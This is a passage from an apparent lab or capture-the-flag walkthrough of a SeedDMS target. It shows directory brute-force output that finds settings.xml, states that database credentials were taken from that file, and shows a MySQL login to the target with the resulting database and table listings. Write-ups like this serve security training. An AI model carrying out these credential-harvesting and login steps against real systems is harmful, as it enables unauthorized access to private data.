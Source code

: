 ```shell
/settings.xml         (Status: 200) [Size: 12377]
Progress: 1102800 / 1102805 (100.00%)
===============================================================
Finished
===============================================================
```

Well, we can find mysql username and password in `settings.xml` file:

![image-20231114192921392](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202311141929656.png)

### 2. Login to mysql

We use the username and password login to mysql, and look for something useful:

```shell
┌──(v4ler1an㉿kali)-[~/Documents/tmp]
└─$ mysql -u seeddms -h 172.16.86.150 -p
Enter password:
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 8
Server version: 8.0.25-0ubuntu0.20.04.1 (Ubuntu)

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.
MySQL [seeddms]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| seeddms            |
| sys                |
+--------------------+
5 rows in set (0.002 sec)

MySQL [(none)]> use seeddms;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MySQL [seeddms]> show tables;
+------------------------------+
| Tables_in_seeddms            |
+------------------------------+
| tblACLs                      |
| tblAttributeDefinitions      |
| tblCategory                  |
| tblDocumentApproveLog        |
| tblDocumentApprovers         |
| tblDocumentAttributes        |
| tblDocumentCategory          |
| tblDocumentContent           |
| tblDocumentContentAttributes |
| tblDocumentFiles             |
| tblDocumentLinks             |
| tblDocumentLocks             |
| tblDocumentReviewLog         |
| tblDocumentReviewers         |
| tblDocumentStatus            |
| tblDocumentStatusLog         |
| tblDocuments                 |
```
